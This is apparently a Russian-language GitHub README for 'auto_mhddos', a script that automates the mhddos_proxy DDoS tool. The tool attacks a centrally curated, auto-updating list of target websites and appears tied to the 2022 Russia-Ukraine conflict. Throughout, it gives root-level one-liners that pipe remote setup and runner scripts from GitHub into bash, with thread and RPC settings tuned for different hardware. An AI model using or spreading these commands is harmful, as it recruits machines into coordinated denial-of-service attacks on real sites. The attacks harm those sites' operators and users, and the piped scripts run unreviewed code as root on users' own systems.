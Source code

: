 ### ⭕️ Оперативный штаб Жнецов
![photo_2022-03-17_23-39-03](https://user-images.githubusercontent.com/41838573/158963538-944690c4-83ea-4934-9a29-6eb8f1e61f3a.jpg)


### auto_mhddos - bash скрипт автоматизирующий [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

## 🪖 Docker

```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest [num_of_copies] [threads] [rpc]
```

Все параметры опциональные, но если передаются, то строго в указанном порядке.

## 🪖 Bash

Перед запуском перейти под пользователя root. Для этого выполнить команду `sudo su`

### Установка.

Выполняется для начальной установки ПО, и периодического обновления. Не обязательно использовать каждый раз.


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/setup.sh | bash
```

Скрипт автоматически устанавливает git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

### Запуск.

Запускается одной командой (one-liner) в Linux і WSL (Windows Subsystem for Linux). Дальнейшее вмешательство со стороны пользователя не обязательно. 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash
```

Команды для разного железа: 

-- Слабое (2 ядра 2 ГБ). Эти же параметры использутся по умолчанию, если запускать команду без аргументов.


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 1 500 100
```

-- Среднее: 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 1000 200
```

-- Быстрое: 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 2000 1000
```

Значение параметров на примере "bash -s -- 1 500 100":

1 - кол-во паралельно запущенных копий mhddos_proxy.

500 - количество потоков (threads). Параметр -t в mhddos_proxy.

100 - параметр --rpc в mhddos_proxy.

# ❕Описание
* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 15 мин.

* Если целей много, то они выбираются из списка рандомно, поэтому не обязательно раскидывать пользователей по группам и распределять между ними нагрузку. Рандом все сделает самостоятельно.

* По умолчанию скрипт запускает 1 копию mhddos_proxy. Если запустить больше, то каждая копия будет независимо выбирает цель из списка, повторяться они не будут. Для этого в списке должны быть хотя бы две цели. Если будет мало целей, лишние копии программы просто не будут запускаться.

* Чтобы скрипт запускал больше копий mhddos_proxy, например 3, выполнить следующую команду `curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/setup.sh | bash | bash -s -- 3` Если в списке всего две цели, то запускать три копии нет смысла. Вреда правда тоже не будет. Скрипт запустит только необходимое кол-во копий.

Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.

# ❌ Завершение скрипта

CTRL+C срабатывает не всегда. Поэтому можно:

* Просто закрыть окно с терминалом.

ИЛИ

* В другом терминале выполните команду "pkill python3", а потом в основном терминале нажмите CTRL + C.

### 🇺🇦🇺🇦🇺🇦 СЛАВА УКРАЇНІ 🇺🇦🇺🇦🇺🇦
### ПТН ХЛО 🤡
